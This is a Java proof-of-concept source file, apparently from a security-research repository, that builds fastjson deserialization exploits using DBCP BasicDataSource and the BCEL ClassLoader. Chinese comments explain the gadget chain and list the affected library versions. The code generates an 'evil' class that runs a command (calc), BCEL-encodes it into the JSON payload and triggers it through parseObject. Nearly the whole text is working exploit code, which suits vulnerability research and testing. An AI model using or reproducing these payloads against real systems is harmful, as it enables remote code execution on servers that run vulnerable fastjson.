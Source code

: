 ```
package fastjsonPoCs;
import evilClass.*;
import com.alibaba.fastjson.JSONObject;
import com.sun.org.apache.bcel.internal.classfile.Utility;
/*
● 基于org.apache.tomcat.dbcp.dbcp.BasicDataSource的PoC，当然也可以说是基于com.sun.org.apache.bcel.internal.util.ClassLoader的PoC
● 前者的主要作用是触发，也就是包含Class.forName()函数的逻辑(createConnectionFactory函数中)；后者是类加载器，可以解析特定格式的类byte[]。
● 
● 
● org.apache.tomcat.dbcp.dbcp.BasicDataSource ----- https://mvnrepository.com/artifact/org.apache.tomcat/tomcat-dbcp 比如tomcat-dbcp-7.0.65.jar
● org.apache.tomcat.dbcp.dbcp2.BasicDataSource ----- https://mvnrepository.com/artifact/org.apache.tomcat/tomcat-dbcp 比如tomcat-dbcp-9.0.13.jar
● org.apache.commons.dbcp.BasicDataSource ----- https://mvnrepository.com/artifact/commons-dbcp/commons-dbcp
● org.apache.commons.dbcp2.BasicDataSource ----- https://mvnrepository.com/artifact/org.apache.commons/commons-dbcp2
● 
● 主要参考：https://xz.aliyun.com/t/2272
 */
public class PoC2dbcp {
 public static void main(String[] argv){
 String xx = payload2();
 } public static String payload2() {
 //payload3:https://xz.aliyun.com/t/2272
 try {
     String payload2 = "{{"@type":"com.alibaba.fastjson.JSONObject","c":{"@type":"org.apache.tomcat.dbcp.dbcp.BasicDataSource","driverClassLoader":{"@type":"com.sun.org.apache.bcel.internal.util.ClassLoader"},"driverClassName":"xxxxxxxxxx"}}:"ddd"}";
//			payload3 = "{{"@type":"com.alibaba.fastjson.JSONObject","c":{"@type":"org.apache.tomcat.dbcp.dbcp2.BasicDataSource","driverClassLoader":{"@type":"com.sun.org.apache.bcel.internal.util.ClassLoader"},"driverClassName":"xxxxxxxxxx"}}:"ddd"}";
//			payload3 = "{{"@type":"com.alibaba.fastjson.JSONObject","c":{"@type":"org.apache.commons.dbcp.BasicDataSource","driverClassLoader":{"@type":"com.sun.org.apache.bcel.internal.util.ClassLoader"},"driverClassName":"xxxxxxxxxx"}}:"ddd"}";
//			payload3 = "{{"@type":"com.alibaba.fastjson.JSONObject","c":{"@type":"org.apache.commons.dbcp2.BasicDataSource","driverClassLoader":{"@type":"com.sun.org.apache.bcel.internal.util.ClassLoader"},"driverClassName":"xxxxxxxxxx"}}:"ddd"}";
            byte[] bytecode = createEvilClass.create("evil","calc");
            String classname = Utility.encode(bytecode,true);
            //System.out.println(classname);
            classname = "org.apache.log4j.spi$$BCEL$$"+classname;
            payload2 = payload2.replace("xxxxxxxxxx", classname);
//			ClassLoader cls = new com.sun.org.apache.bcel.internal.util.ClassLoader();
//			Class.forName(classname, true, cls);
            JSONObject.parseObject(payload2);
            return payload2;
        } catch (Exception e) {
            e.printStackTrace();
            return null;
        }
    }
}
```  
# 插件检测CVE-2021-29095  
  